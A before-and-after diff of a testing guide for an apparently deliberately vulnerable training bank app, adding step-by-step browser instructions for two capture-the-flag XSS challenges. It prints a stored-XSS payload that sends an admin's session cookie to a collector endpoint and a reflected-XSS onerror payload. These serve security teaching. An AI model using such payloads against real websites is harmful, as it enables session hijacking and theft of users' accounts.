

Before and after one commit to Brano21/danubius-bank, a Markdown page: TESTING-GUIDE.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(W1-03/W1-04): add beginner 'in the browser, exactly' steps for XSS
XSS is where people get stuck. Spell out the click-by-click flow and the gotchas:
- W1-04: the flag does NOT appear on the page you inject into - the onerror fires
  after that render, so you must RELOAD /search to see it (the step everyone misses).
- W1-03: use the SAME token in the payload and the collector; nothing shows in
  your own page because the script runs in the admin's browser - the collector is
  the only place the result appears.
Both flows re-verified live end to end.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/TESTING-GUIDE.md
+++ b/TESTING-GUIDE.md
@@ -214,14 +214,19 @@ That is the canonical XSS cookie-theft one-liner:
 ```html
 <script>fetch('/w1-03/collect/demoTOK?c='+document.cookie)</script>
 ```
-- Put it in the note, submit → *"Transfer #20 created"*.
-- Your collector **before** reporting → `/w1-03/collect/demoTOK` (or `/collector`
-  → enter `demoTOK`) → empty.
-- Click **Report to admin**.
-- Your collector **after** → real captured value:
+**In the browser, exactly:**
+1. Open **New transfer**. In the **Note** field paste the payload — use *your own*
+   token, and use the **same** string in the payload and when you check the
+   collector (here `demoTOK`).
+2. Send the transfer → click **Report to admin for review**.
+3. Open `/w1-03/collect/demoTOK` (or go to **/collector** and type `demoTOK`).
+   Empty before you reported; after reporting it holds the stolen cookie:
 ```
 session=admin-danubka; flag=RPC{...}
 ```
+⚠️ Nothing appears in *your* own page when the payload runs — it runs in the
+**admin's** browser, not yours. The collector is the only place you see the result.
+
 **Reason.** The callback fired only after the admin "viewed" the note → your script
 executed **in the admin's browser** → stored XSS confirmed, and the exfiltrated
 cookie carries the flag. Had the note been escaped, the collector would stay empty.
@@ -271,6 +276,17 @@ page* by an executed script. That forces a genuine XSS, not a guessed request.
 ```html
 <img src=x onerror="fetch('/search/solved?n='+window.__proof)">
 ```
+
+**In the browser, exactly:**
+1. Log into the bank, open **Search**.
+2. Paste the payload above into the search box and submit.
+3. The page comes back showing your payload — **no flag yet. This is normal.** The
+   `<img>` fails to load → its `onerror` runs your JS → which quietly calls
+   `/search/solved` with the page's token. (Open DevTools → Network to watch that
+   request go out and return the flag.)
+4. **Reload `/search`** (just open it again) → **now the flag appears.**
+   ⚠️ This is the step people miss: the flag shows on the *next* page load, not
+   the one you injected into (that request happened before your script solved it).
 
 **Impact.** Arbitrary JS in a victim's authenticated session (cookie theft, actions
 on their behalf), delivered by a crafted URL.
````
